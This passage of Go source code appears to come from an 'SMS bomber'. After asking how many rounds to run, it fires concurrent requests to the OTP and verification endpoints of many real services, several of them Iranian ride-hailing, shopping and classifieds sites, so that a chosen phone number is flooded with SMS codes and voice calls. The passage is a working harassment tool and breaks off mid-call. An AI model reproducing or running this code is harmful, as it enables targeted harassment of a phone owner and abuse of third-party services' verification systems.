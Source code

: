 	var repeatCount int
	fmt.Print("\033[01;31m[\033[01;32m+\033[01;31m] \033[01;32mEnter Number sms/call : \033[00;36m")
	fmt.Scan(&repeatCount)

	ch := make(chan int)

	for i := 0; i < repeatCount; i++ {
		go sms("https://3tex.io/api/1/users/validation/mobile", map[string]interface{}{
			"receptorPhone": phone,
		}, ch)
		go sms("https://deniizshop.com/api/v1/sessions/login_request", map[string]interface{}{
			"mobile_phone": phone,
		}, ch)
		go sms("https://flightio.com/bff/Authentication/CheckUserKey", map[string]interface{}{
			"userKey": phone,
		}, ch)
		go sms("https://app.snapp.taxi/api/api-passenger-oauth/v2/otp", map[string]interface{}{
			"cellphone": phone,
		}, ch)
		go sms("https://bck.behtarino.com/api/v1/users/phone_verification/", map[string]interface{}{
			"phone": phone,
		}, ch)
		go sms("https://abantether.com/users/register/phone/send/", map[string]interface{}{
			"phoneNumber": phone,
		}, ch)
		s57 := fmt.Sprintf("phone=%s&call=yes", phone)
		go sms("https://novinbook.com/index.php?route=account/phone", map[string]interface{}{
			s57: phone,
		}, ch)
		go sms(fmt.Sprintf("https://www.azki.com/api/vehicleorder/api/customer/register/login-with-vocal-verification-code?phoneNumber=%s", phone), map[string]interface{}{
			"esfelurm": "esfelurm",
		}, ch)
		go sms("https://api.pooleno.ir/v1/auth/check-mobile", map[string]interface{}{
			"mobile": phone,
		}, ch)
		go sms("https://agent.wide-app.ir/auth/token", map[string]interface{}{
			"'grant_type': 'otp', 'client_id': '62b30c4af53e3b0cf100a4a0', 'phone'": phone,
		}, ch)
		sm := fmt.Sprintf("'credential': {'phoneNumber': %s, 'role': 'PASSENGER'}", phone)
		go sms("https://tap33.me/api/v2/user", map[string]interface{}{
			sm: phone,
		}, ch)
		go sms("https://web.emtiyaz.app/json/login", map[string]interface{}{
			"send=1&cellphone=": phone,
		}, ch)
		go sms("https://api.divar.ir/v5/auth/authenticate", map[string]interface{}{
			"phone": phone,
		}, ch)
		se := fmt.Sprintf("'api_version': '3', 'method': 'sendCode', 'data': {'phone_number': %s, 'send_type': 'SMS'}", phone)
		go sms("https://messengerg2c4.iranlms.ir/", map[string]interface{}{
			se: phone,
		}, ch)
		go sms("https://nx.classino.com/otp/v1/api/login", map[string]interface{}{
			"mobile": phone,
		}, ch)
		go sms("https://bama.ir/signin-checkforcellnumber", map[string]interface{}{
			"cellNumber=": phone,
		}, ch)
		go sms("https://snappfood.ir/mobile/v2/user/loginMobileWithNoPass?lat=35.774&long=51.418&optionalClient=WEBSITE&client=WEBSITE&deviceType=WEBSITE&appVersion=8.1.0&UDID=39c62f64-3d2d-4954-9033-816098559ae4&locale=fa", map[string]interface{}{
			"cellphone": phone,